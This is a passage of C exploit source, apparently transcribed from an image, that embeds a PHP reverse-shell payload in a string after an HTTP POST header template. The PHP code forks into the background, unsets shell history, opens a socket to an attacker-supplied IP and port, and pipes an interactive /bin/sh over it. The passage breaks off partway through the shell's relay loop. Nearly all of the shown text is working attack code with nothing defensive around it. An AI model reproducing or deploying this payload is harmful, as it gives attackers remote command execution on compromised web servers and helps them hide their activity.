 >  "Content-Type: application/x-www-form-urlencoded\r\n"   
>  "Content-Length: %d\r\n"   
>  "Connection: close\r\n\r\n%s";
> char phpstr[] = "<?php\n"   
> "set_time_limit(0);\n"   
> "$ip = '%s';\n"   
> "$port = %d;\n"   
> "$chunk_size = 1400;\n"   
> "$write_a = null;\n"   
> "$error_a = null;\n"   
> "$shell = 'unset HISTFILE; unset HISTSIZE; uname -a; w; id; /bin/sh -i';\n"   
> "$daemon = 0;\n"   
> "$debug = 0;\n"   
> "if (function_exists('pcntl_fork')) {\n"   
> "  $pid = pcntl_fork();    \n"   
> "  if ($pid == -1) {\n"   
> "      printit(\"ERROR: Can't fork\");\n"   
> "      exit(1);\n"   
> "  }\n"   
> "  if ($pid) {\n"   
> "      exit(0);\n"   
> "  }\n"   
> "  if (posix_setsid() == -1) {\n"   
> "      printit(\"Error: Can't setsid()\");\n"   
> "      exit(1);\n"   
> "  }\n"   
> "  $daemon = 1;\n"   
> "} else {\n"   
> "  printit(\"WARNING: Failed to daemonise.\");\n"   
> "}\n"   
> "chdir(\"/\");\n"   
> "umask(0);\n"   
> "$sock = fsockopen($ip, $port, $errno, $errstr, 30);\n"   
> "if (!$sock) {\n"   
> "  printit(\"$errstr ($errno)\");\n"   
> "  exit(1);\n"   
> "}\n"   
> "$descriptorspec = array(\n"   
> "   0 => array(\"pipe\", \"r\"),\n"   
> "   1 => array(\"pipe\", \"w\"),\n"   
> "   2 => array(\"pipe\", \"w\")\n"   
> ");\n"   
> "$process = proc_open($shell, $descriptorspec, $pipes);\n"   
> "if (!is_resource($process)) {\n"   
> "  printit(\"ERROR: Can't spawn shell\");\n"   
> "  exit(1);\n"   
> "}\n"   
> "stream_set_blocking($pipes[0], 0);\n"   
> "stream_set_blocking($pipes[1], 0);\n"   
> "stream_set_blocking($pipes[2], 0);\n"   
> "stream_set_blocking($sock, 0);\n"   
> "while (1) {\n"   
> "  if (feof($sock)) {\n"   
> "      printit(\"ERROR: Shell connection terminated\");\n"   
> "      break;\n"   
> "  }\n"   
> "  if (feof($pipes[1])) {\n"   
> "      printit(\"ERROR: Shell process terminated\");\n"   
> "      break;\n"   
> "  }\n"   
> "  $read_a = array($sock, $pipes[1], $pipes[2]);\n"   
> "  $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);\n"   
> "  if (in_array($sock, $read_a)) {\n"   
> "      if ($debug) printit(\"SOCK READ\");\n"   